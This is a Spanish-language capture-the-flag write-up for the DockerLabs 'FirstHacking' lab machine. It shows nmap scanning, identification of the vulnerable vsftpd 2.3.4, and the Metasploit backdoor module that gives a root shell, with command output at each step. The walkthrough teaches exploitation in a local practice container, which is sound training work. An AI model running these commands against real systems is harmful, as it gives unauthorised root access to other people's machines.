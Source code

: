 # 🖥️ Writeup - FirstHacking 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip firsthacking.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh firsthacking.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p21 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 18:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds
```
Vemos que solo el puerto `21` (`FTP`) está abierto y que la versión de `vsftpd` que corre es la `2.3.4`.

Esta versión en concreto es vulnerable a `Backdoor Command Execution`, como podemos comprobar tras utilizar `searchsploit`.

Info:
```
----------------------------------------- ---------------------------------
 Exploit Title                           |  Path
----------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/17491.rb
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
----------------------------------------- ---------------------------------
```

Abrimos `Metasploit` y empleamos el módulo de explotación para `vsftpd 2.3.4`.

```js
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 172.17.0.2
run
```

Info:
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:46523 -> 172.17.0.2:6200) at 2025-09-11 18:10:10 +0200
```

Obtenemos una `command shell` y verificamos qué privilegios tenemos.

```bash
/bin/bash -i
whoami
```

Info:
```
root@0cc78b8316b6:~/vsftpd-2.3.4# whoami
root
root@0cc78b8316b6:~/vsftpd-2.3.4#
```

Ya estamos como usuario root!